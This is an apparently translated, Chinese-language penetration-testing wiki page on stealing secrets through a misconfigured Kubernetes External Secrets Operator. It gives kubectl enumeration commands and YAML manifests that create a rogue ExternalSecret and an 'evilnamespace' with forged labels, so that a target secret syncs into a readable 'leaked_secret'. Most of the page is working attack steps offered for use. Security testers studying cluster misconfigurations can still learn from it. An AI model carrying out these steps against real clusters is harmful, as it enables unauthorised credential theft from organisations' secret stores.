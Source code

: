 # 外部秘密操作员

**本页面的原始作者是** [**Fares**](https://www.linkedin.com/in/fares-siala/)

本页面提供了一些指针，说明您如何可以实现从配置错误的ESO或使用ESO同步其秘密的应用程序中窃取秘密。

## 免责声明

下面展示的技术只有在满足某些情况时才能起作用。例如，它取决于允许在您拥有/受损的命名空间上同步秘密所需的要求。您需要自己弄清楚。

## 先决条件

1. 在具有对命名空间的管理员特权的kubernetes / openshift集群中立足
2. 至少在集群级别对ExternalSecret具有读取权限
3. 弄清楚是否需要任何标签/注释或组成员资格，以允许ESO同步您的秘密。如果您很幸运，您可以自由窃取任何已定义的秘密。

### 收集有关现有ClusterSecretStore的信息

假设您有足够权限读取此资源的用户；首先列出现有的 _**ClusterSecretStores**_。
```sh
kubectl get ClusterSecretStore
```
### 外部秘密枚举

假设您找到了一个名为 _**mystore**_ 的 ClusterSecretStore。继续枚举其关联的外部秘密。
```sh
kubectl get externalsecret -A | grep mystore
```
_这个资源是命名空间范围的，所以除非你已经知道要查找哪个命名空间，否则请添加 -A 选项以跨所有命名空间查找。_

你应该获得一个已定义的 externalsecret 列表。假设你找到了一个名为 _**mysecret**_ 的 externalsecret 对象，并且被 _**mynamespace**_ 命名空间使用。收集更多关于它保存了什么类型秘密的信息。
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### 组装碎片

从这里，您可以获取一个或多个秘密名称（如在秘密资源中定义）。您将获得类似于以下输出：
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
### 现在我们已经准备好了：

* 命名一个 ClusterSecretStore
* 命名一个 ExternalSecret
* 密钥的名称

现在我们已经拥有所有需要的信息，您可以创建一个 ExternalSecret（并最终修补/创建一个新的命名空间，以符合同步新密钥所需的先决条件）：
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
在几分钟后，如果同步条件得到满足，您应该能够在您的命名空间内查看泄露的秘密。
```sh
kubectl get secret leaked_secret -o yaml
```
## 参考

{% embed url="https://external-secrets.io/latest/" %}

{% embed url="https://github.com/external-secrets/external-secrets" %}
